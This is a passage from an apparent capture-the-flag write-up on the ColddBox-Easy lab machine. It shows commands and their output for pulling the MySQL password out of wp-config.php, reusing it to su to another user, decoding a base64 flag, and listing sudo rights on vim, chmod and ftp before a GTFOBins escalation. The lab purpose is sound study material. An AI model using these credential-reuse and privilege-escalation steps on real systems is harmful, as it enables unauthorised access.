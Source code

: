 Knowing that this is a `wordpress` site, we can try to enumerate the `wp-config.php` file to see if we can grab the `mysql` password. From there, we can try to see if we can connect to `mysql` if it is running on `localhost`, or even try to `su` to c0ldd with the password.

```
www-data@ColddBox-Easy:/home/c0ldd$ cd /var/www/html/
www-data@ColddBox-Easy:/var/www/html$ grep -i passw wp-config.php 
/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

We have a new password. Let's try to `su` as c0ldd now.

```
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
Password: 
c0ldd@ColddBox-Easy:~$ cat ~/user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

It was successful, and we were able to `cat` `user.txt`. Interestingly enough, the flag is actually `base64` encoded. Let's see if this decodes to anything useful.

```
c0ldd@ColddBox-Easy:~$ cat ~/user.txt | base64 -d; echo
Felicidades, primer nivel conseguido!
```

And that translates to:

```
Congratulations, first level achieved!
```

Nice.

## Root

Since we have a working password, let's see if we can run `sudo`.

```
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Amazing! We have three different binaries that we can use to elevate our priveleges. [GTFOBins](https://gtfobins.github.io/) is an excellent source for researching how we can escalate priveleges using `sudo`.

Starting with `vim`, we can use it to launch a new `bash` shell.
